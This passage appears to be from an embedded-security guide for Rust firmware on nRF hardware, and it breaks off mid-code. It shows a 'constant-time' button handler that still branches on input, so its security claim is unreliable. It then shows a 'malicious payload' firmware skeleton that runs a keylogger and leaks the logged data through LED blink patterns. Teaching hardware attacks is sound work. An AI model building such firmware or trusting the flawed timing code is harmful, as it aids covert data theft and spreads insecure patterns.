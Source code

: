 ```rust
// Secure: Constant-time processing
async fn secure_button_handler() {
    let start_time = Instant::now();
    
    if button_a.is_pressed() {
        let should_delay = secret_condition;
        
        process_button_a().await;
        
        // Always wait the same total time
        Timer::after(Duration::from_millis(10)).await;
    }
}
```

## Developing Exploits

### Custom Firmware Development

#### Malicious Payload Example
```rust
#![no_std]
#![no_main]

use embassy_executor::Spawner;
use embassy_nrf::{gpio, peripherals};
use embassy_time::{Duration, Timer};

// Malicious firmware that exfiltrates data via LED patterns

#[embassy_executor::main]
async fn main(spawner: Spawner) {
    let p = embassy_nrf::init(Default::default());
    
    // Initialize LED matrix for data exfiltration
    let display = setup_display(p).await;
    
    spawner.spawn(data_exfiltration_task(display)).unwrap();
    spawner.spawn(keylogger_task()).unwrap();
}

#[embassy_executor::task]
async fn data_exfiltration_task(mut display: LedMatrix) {
    loop {
        // Read stored keylog data
        let data = read_keylog();
        
        // Transmit via LED blink patterns
        for byte in data {
            transmit_byte_via_led(&mut display, byte).await;
        }
        
        Timer::after(Duration::from_secs(60)).await;
    }
}

async fn transmit_byte_via_led(display: &mut LedMatrix, byte: u8) {
    // Encode byte as LED blink pattern
    for bit in 0..8 {
        if (byte >> bit) & 1 == 1 {
            display.set_pixel(0, 0, true);  // LED on = bit 1
            Timer::after(Duration::from_millis(100)).await;
```
